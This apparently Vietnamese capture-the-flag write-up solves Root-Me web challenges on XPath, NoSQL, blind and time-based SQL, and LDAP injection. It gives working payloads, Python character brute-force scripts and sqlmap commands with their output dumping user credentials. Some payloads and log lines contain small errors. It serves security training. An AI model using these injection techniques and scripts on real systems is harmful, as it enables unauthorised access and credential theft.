





# 61. XPath injection - String

- Thử `'`, ta thấy có lỗi:


- Tìm được payload `')]%00` ở đây: 


- Thử vào ta được 5 users:


- Sửa payload để xem pw của từng user:

```
')] | //password%00
```


- Thử từng password và ta tìm được flag:


```
Flag: MB5PRCvfOXiYejMcmNTI
```

# 62. NoSQL injection - Blind

- Yêu cầu của challenge này là ta phải inject vào NoSQL để lấy password:


- Nếu truy vấn của ta là `index.php?chall_name=nosqlblind&flag=abc`, thì bên phía server sẽ xử lí như sau:

```
$database->find(array(
    "chall_name" => "nosqlblind",
    "flag" => "abc"
));
```

- Nhưng nếu ta truyền vào 1 mảng hoặc 1 object: `index.php?chall_name[$gt]=1&flag[$gt]=1` thì phía server sẽ xử lý thành:

```
$database->find(array(
    "chall_name" => array("$gt" => 1),
    "flag" => array("$gt" => 1)
));
```

- Cụ thể, NoSQL có những toán tử đặc biệt để tìm kiếm các `document` . Ta có thể tìm hiểu thêm tại (https://www.mongodb.com/docs/manual/reference/operator/query/)

- Thử: `chall_name=nosqlblind&flag[$ne]`, ta được:


- Ở đây ta dùng `$regex` operator để brute-force các kí tự trong password:

```python
import requests
import string

url = 'http://challenge01.root-me.org/web-serveur/ch48/index.php?'

listchar = string.ascii_lowercase + string.ascii_uppercase + string.digits + "_@"

flag=''

for i in range(21):
	for c in listchar:
		r = requests.get(url+f'chall_name=nosqlblind&flag[$regex]=^{flag+c}.*')
		if 'Yeah this is the flag for nosqlblind!' in r.text:
			flag+=c
			print("Flag: ",flag)
			break
```

- Result:

```
Flag: 3@sY_n0_5q7_1nj3c710n
```

# 63. SQL injection - Blind

- Thử `admin'-- -`, ta truy cập được. Tuy nhiên, website không trả về thông tin password gì cả:



- Thử burpsuite và tthay đổi payload bằng `union select` thì thấy website đã filter nó:



- Đề cho hint là blind injection, nên ta mò thử các cấu trúc mà server database hay tạo.

- Thử payload:

```
username=admin%27+AND+(select+username+from+sqlite\_master)='admin'--+-&password=admin%27--+-
```



- Server trả về là TRUE. Vậy ta fuzz tìm password bằng substr():

  - Tìm length(password):

    

    - Length(password) == 8

  - Tìm password:

    - Thử payload sau:

    ```
    username=admin%27+AND+substr((select+password+from+sqlite\_master),1,1)='a'--+-&password=admin%27--+-
    ```

    - Result:

    

```
Flag: e2azO93i
```

# 64. SQL injection - Time based

- Thử load url vào sqlmap:

```js
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 --current-db
```

- Ta được:

```
current schema (equivalent to database on PostgreSQL):    'public'
```

- Tiếp tục tìm các bảng từ database `public`:

```js
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public --tables
```

```
[23:05:14] [INFO] retrieved: sqlmapoutput
[23:05:14] [INFO] retrieved: users
[23:05:14] [DEBUG] performed 39 queries in 33.20 seconds
Database: public
[2 tables]
+--------------+
| sqlmapoutput |
| users        |
+--------------+
```

- Lấy các cột từ bảng `users`:

```js
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public -T users --columns
```

- Kết quả:

```
[23:12:41] [INFO] fetching columns for table 'users' in database 'public'
[23:12:41] [INFO] resumed: 6
[23:12:41] [INFO] resumed: email
[23:1512:41] [WARNING] (case) time-based comparison requires reset of statistical model, please wait........................(done)
[23:14:23] [INFO] resumed: firstname
[23:14:23] [INFO] retrieved: varchar
[23:15:04] [INFO] resuming partial value: i
[23:15:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait........................(done)
[23:15:13] [INFO] retrieved: int4
[23:15:41] [INFO] retrieved: lastname
[23:16:30] [INFO] retrieved: varchar
[23:17:10] [INFO] retrieved: password
[23:17:06] [INFO] retrieved: varchar
[23:18:47] [INFO] retrieved: username
[23:19:33] [INFO] retrieved: varchar
Database: public
Table: users
[6 columns]
+-----------+---------+
| Column    | Type    |
+-----------+---------+
| email     | varchar |
| firstname | varchar |
| id        | int4    |
| lastname  | varchar |
| password  | varchar |
| username  | varchar |
+-----------+---------+
```

- Lấy dữ liệu từ các cột:

```js
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=10 -D public -T users -C id,email,password --dump
```

- Cuối cùng ta được:

```
[23:32:36] [INFO] fetching entries of column(s) 'password' for table 'users' in database 'public'
[23:32:36] [INFO] fetching number of column(s) 'password' entries for table 'users' in database 'public'
[23:32:36] [INFO] resumed: 3
[23:32:36] [WARNING] time-based comparison requires reset of statistical model, please wait........................(done)
[23:34:03] [INFO] retrieved: p@r0WKr@K3n 
[23:35:47] [INFO] retrieved: T!m3B@s3DSQL!
[23:37:03] [INFO] retrieved: J0hNG0lDeN
Database: public
Table: users
[3 entries]
+----+---------------------------+---------------+
| id | email                     | password      |
+----+---------------------------+---------------+
| 1  | ycam@sqlitimebased.com    | T!m3B@s3DSQL! |
| 2  | jsilver@sqlitimebased.com | J0hNG0lDeN    |
| 3  | jsparow@sqlitimebased.com | Sp@r0WKr@K3n  |
+----+---------------------------+---------------+
```

```
Flag: T!m3B@s3DSQL!
```


# 65. LDAP injection - Blind [55 Points]

- Tab `dir` của trang web cho phép ta search một user bất kỳ. Thử inject vào đây:


- Thử với payload dưới, ta thấy nó không bị filter:

```
admin*)(mail=admin@ch26.challenge01.root-me.org
```


- Viết payload để brute-force password:

```python
import requests
flag = ""
url="http://challenge01.root-me.org/web-serveur/ch26/action=dir&search=admin*)(password="
for i in range(1,20):
    check = False
    for j in range(39,127):
        pw = flag + chr(j)
        r = requests.get(url=url+pw)
        if("admin" in r.text):
            flag+=chr(j)
            print(flag)
            check = True
        if(check):
            break
print(flag)
```

- Kết quả:


- Thử password này nhưng server báo không đúng. Do some research thì ta biết LDAP không phân biệt chữ hoa chữ thường. Thử với chữ thường thì đúng.

```
Flag: dsy365gdzerzo94
```

# 66. SQL injection - Filter bypass

- Dễ thấy chúng ta phải inject vào `id`:


- Các ký tự bị filter nên ta sẽ bypass như sau:
  - `Whitespace` =>  `%09`
  - `select` =>  `SELECT`
  - `union` =>  `UNION`
  - `join` =>   `JOIN`
  - `where` =>  `limit` và `offset` 
  - `select  1,2 (filter dấu , )` =>  `(SELECT 1) AS A JOIN (SELECT 2) AS B` (Phải có alias cho sub-query)

- Mở source code ta có thông tin bảng:


- Từ đó payload của ta sẽ có dạng:

```sql
0 union select - from (select 1) as A join (select 2) as Bjoin (select 3) as C join (select 4) as D
```

- Thay thế để nó bypass được filter thì payload trở thành:

```
0%09UNION%09SELECT%09*%09FROM%09(SELECT%091%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%09(SELECT%093%09AS%09C%09JOIN%09(SELECT%094)%09AS%09D
```

- Kết quả:


- Sửa đổi 1 cột để trả ra password của admin và kết quả thu được là:

```
0%09UNION%09SELECT%09*%09FROM%09(SELECT%09%09AS%09A%09JOIN%09(SELECT%092)%09AS%09B%09JOIN%(SELECT%093)%09AS%09C%09JOIN%(SELECT%09pass%09From%09membres%09LIMIT%091%09OFFSET%090%0%09AS%09D
```

- Result:


```
Flag: KLfgyTIJbdhursqli
```